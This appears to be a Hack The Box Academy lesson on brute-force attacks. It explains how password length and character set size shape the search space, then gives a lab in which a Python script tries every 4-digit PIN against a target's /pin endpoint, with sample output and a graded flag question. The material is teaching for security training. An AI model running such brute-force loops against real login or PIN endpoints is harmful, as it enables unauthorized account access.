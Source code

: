 
<h1>Brute Force Attacks</h1>
<p>To truly grasp the challenge of brute forcing, it's essential to understand the underlying mathematics. The following formula determines the total number of possible combinations for a password:</p>
<pre><code class="language-mathml">Possible Combinations = Character Set Size^Password Length
</code></pre>
<p>For example, a 6-character password using only lowercase letters (character set size of 26) has 26^6 (approximately 300 million) possible combinations. In contrast, an 8-character password with the same character set has 26^8 (approximately 200 billion) combinations. Adding uppercase letters, numbers, and symbols to the character set further expands the search space exponentially.</p>
<p>This exponential growth in the number of combinations highlights the importance of password length and complexity. Even a small increase in length or the inclusion of additional character types can dramatically increase the time and resources required for a successful brute-force attack.</p>
<p>Let's consider a few scenarios to illustrate the impact of password length and character set on the search space:</p>
<table>
<thead>
<tr>
<th></th>
<th>Password Length</th>
<th>Character Set</th>
<th>Possible Combinations</th>
</tr>
</thead>
<tbody>
<tr>
<td><code>Short and Simple</code></td>
<td>6</td>
<td>Lowercase letters (a-z)</td>
<td>26^6 = 308,915,776</td>
</tr>
<tr>
<td><code>Longer but Still Simple</code></td>
<td>8</td>
<td>Lowercase letters (a-z)</td>
<td>26^8 = 208,827,064,576</td>
</tr>
<tr>
<td><code>Adding Complexity</code></td>
<td>8</td>
<td>Lowercase and uppercase letters (a-z, A-Z)</td>
<td>52^8 = 53,459,728,531,456</td>
</tr>
<tr>
<td><code>Maximum Complexity</code></td>
<td>12</td>
<td>Lowercase and uppercase letters, numbers, and symbols</td>
<td>94^12 = 475,920,493,781,698,549,504</td>
</tr>
</tbody>
</table>
<p>As you can see, even a slight increase in password length or the inclusion of additional character types dramatically expands the search space. This significantly increases the number of possible combinations that an attacker must try, making brute-forcing increasingly challenging and time-consuming. However, the time it takes to crack a password isn't just dependent on the size of the search space—it also hinges on the attacker's available computational power.</p>
<p>The more powerful the attacker's hardware (e.g., the number of GPUs, CPUs, or cloud-based computing resources they can utilize), the more password guesses they can make per second. While a complex password can take years to brute-force with a single machine, a sophisticated attacker using a distributed network of high-performance computing resources could reduce that time drastically.</p>
<p><img alt="Bar chart comparing password cracking times for basic and super computers across different password complexities." src="https://academy.hackthebox.com/storage/modules/57/powern.png"/></p>
<p>The above chart illustrates an exponential relationship between password complexity and cracking time. As the password length increases and the character set expands, the total number of possible combinations grows exponentially. This significantly increases the time required to crack the password, even with powerful computing resources.</p>
<p>Comparing the basic computer and the supercomputer:</p>
<ul>
<li>Basic Computer (1 million passwords/second): Adequate for cracking simple passwords quickly but becomes impractically slow for complex passwords. For instance, cracking an 8-character password using letters and digits would take approximately 6.92 years.</li>
<li>Supercomputer (1 trillion passwords/second): Drastically reduces cracking times for simpler passwords. However, even with this immense power, cracking highly complex passwords can take an impractical amount of time. For example, a 12-character password with all ASCII characters would still take about 15000 years to crack.</li>
</ul>
<h2>Cracking the PIN</h2>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>To follow along, start the target system via the question section at the bottom of the page.</b></p>
</div>
</div>
<p>The instance application generates a random 4-digit PIN and exposes an endpoint (<code>/pin</code>) that accepts a PIN as a query parameter. If the provided PIN matches the generated one, the application responds with a success message and a flag. Otherwise, it returns an error message.</p>
<p>We will use this simple demonstration Python script to brute-force the <code>/pin</code> endpoint on the API. Copy and paste this Python script below as <code>pin-solver.py</code> onto your machine. You only need to modify the IP and port variables to match your target system information.</p>
<pre><code class="language-python">import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
</code></pre>
<p>The Python script systematically iterates all possible 4-digit PINs (0000 to 9999) and sends GET requests to the Flask endpoint with each PIN. It checks the response status code and content to identify the correct PIN and capture the associated flag.</p>
<pre><code class="language-shell-session">[!bash!]$ python pin-solver.py

...
Attempted PIN: 4039
Attempted PIN: 4040
Attempted PIN: 4041
Attempted PIN: 4042
Attempted PIN: 4043
Attempted PIN: 4044
Attempted PIN: 4045
Attempted PIN: 4046
Attempted PIN: 4047
Attempted PIN: 4048
Attempted PIN: 4049
Attempted PIN: 4050
Attempted PIN: 4051
Attempted PIN: 4052
Correct PIN found: 4053
Flag: HTB{...}
</code></pre>
<p>The script's output will show the progression of the brute-force attack, displaying each attempted PIN and its corresponding result. The final output will reveal the correct PIN and the captured flag, demonstrating the successful completion of the brute-force attack.</p>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">
<div class="col-4"></div>
<div class="col-4">
<button class="startInstanceBtn btn btn-success text-light btn-lg btn-block" style="margin-top: 270px;">Start Instance
                            </button>
<p class="text-center mt-2 font-size-13 font-secondary">
<span class="text-success spawnsLeft">
<i class="fal fa-infinity"></i>
</span> / 1 spawns left
                            </p>
</div>
<div class="col-4"></div>
</div>
</div>
</div>
<div class="row align-center justify-center my-4">
<div class="col-5 justify-start">
<button class="instance-button fullScreenBtn btn btn-light btn-sm float-left" style="display:none;" target="_blank"><i class="fad fa-expand text-success mr-1"></i>  Full Screen
                    </button>
<button class="instance-button terminateInstanceBtn btn btn-light btn-sm ml-2" style="display:none;"><i class="fad fa-times text-danger"></i>  Terminate
                    </button>
<button class="instance-button resetInstanceBtn btn btn-light btn-sm ml-1" style="display:none;"><i class="fad fa-sync text-warning mr-2"></i>  Reset
                    </button>
<div class="btn-group" role="group">
<button class="instance-button extendInstanceBtn btn btn-light btn-sm ml-1" style="display:none;cursor: default;">Life Left:
                            <span class="lifeLeft"></span>m
                        </button>
<button class="extendInstanceBtn extendInstanceBtnClicker btn btn-light btn-sm" data-title="Extend Life" data-toggle="tooltip" style="display:none;"><i class="fa fa-plus text-success"></i></button>
</div>
</div>
<div class="col-7 justify-end pt-2 pr-2 font-size-small text-right" id="statusText">Waiting to
                    start...
                </div>
</div>
<div class="d-inline-block mb-2 solutionSettings solutionSettingsOffsets" id="solutionsModuleSetting">
<div class="border border-secondary p-2 rounded">
<div class="custom-control custom-switch d-flex">
<input class="custom-control-input" disabled="" id="showSolutionsModuleSetting" type="checkbox"/>
<label class="custom-control-label font-size-14 font-weight-normal text-white" for="showSolutionsModuleSetting">
                                Enable step-by-step solutions for all questions
                            </label>
<span aria-hidden="true" class="cursor-pointer font-size-14 ml-1 mr-1 text-white" data-content="Access to this feature is exclusive to annual subscribers. To acquire an annual subscription, kindly proceed by clicking &lt;a href='/billing'&gt;here&lt;/a&gt;." data-html="true" data-placement="top" data-toggle="popover" data-trigger="click" title="Activate Solutions">
<i class="fa fa-info-circle font-size-12"></i>
</span>
<img alt="sparkles-icon-decoration" class="ml-2 w-auto sparkles-icon" height="20" src="/images/sparkles-solid.svg">
</img></div>
</div>
</div>
<div class="card" id="questionsDiv">
<div class="card-body">
<div class="row">
<div class="col-9">
<h4 class="card-title mt-0 font-size-medium">Questions</h4>
<p class="card-title-desc font-size-large font-size-15">Answer the question(s) below
                                to complete this Section and earn cubes!</p>
<span class="spawnTargetBtn spawn-target-text-clone d-none">Click here to spawn the target
                                system!</span>
<p class="card-title-desc font-size-large font-size-15 mb-0">
    Target(s): <span class="text-success">
<span class="target" style="cursor:pointer;">
<i class="fad fa-circle-notch fa-spin"></i>
<span class="spawnTargetBtn">Fetching status...</span>
</span>
</span>
<button class="resetTargetBtn btn btn-light btn-sm" data-title="Reset Target(s)" data-toggle="tooltip" style="cursor: pointer; display: none;">
<i class="fad fa-sync text-warning"></i>
</button>
<br/>
<div class="d-flex align-items-center targetLifeContainer">
<span class="targetLifeTimeContainer" style="display: none;">
            Life Left: <span class="targetLifeTime font-size-15">0</span> minute(s)
                    </span>
</div>
</p>
</div>
<div class="col-3 text-right float-right">
<button class="btn btn-light bg-color-blue-nav mt-2 w-100 d-flex align-items-center" data-target="#cheatSheetModal" data-toggle="modal">
<div><i class="fad fa-file-alt mr-2"></i></div>
<div class="text-center w-100 ml-1">Cheat Sheet</div>
</button>
</div>
</div>
<div>
<div>
<label class="module-question" for="117"><span class="badge badge-soft-dark font-size-14 mr-2">+ 2 <i class="fad fa-cube text-success"></i></span> After successfully brute-forcing the PIN, what is the full flag the script returns?
                            </label>
<div class="row">
<div class="col-lg-12 mb-4">
<input class="form-control bg-color-blue-nav" color="green" id="answer117" maxlength="191" placeholder="Submit your answer here..." type="text"/>
</div>
<div class="d-flex justify-content-end w-100 mr-3">
<p class="mb-0 mr-3 mt-1 font-size-14 font-medium text-white" id="questionStreakPointsText-117">
                                        +10 Streak pts</p>
<div class="mb-4 mr-1 d-flex align-items-center">
<button class="btn btn-primary btn-block btnAnswer" data-question-id="117" id="btnAnswer117">
<div class="submit-button-text">
<i class="fad fa-flag-checkered mr-2"></i> Submit
                                            </div>
<div class="submit-button-loader mx-4 d-none">
<i class="fa fa-circle-notch fa-spin"></i>
</div>
</button>
</div>
</div>
</div>
<div class="">
</div>
</div>
</div>
</div>
</div>
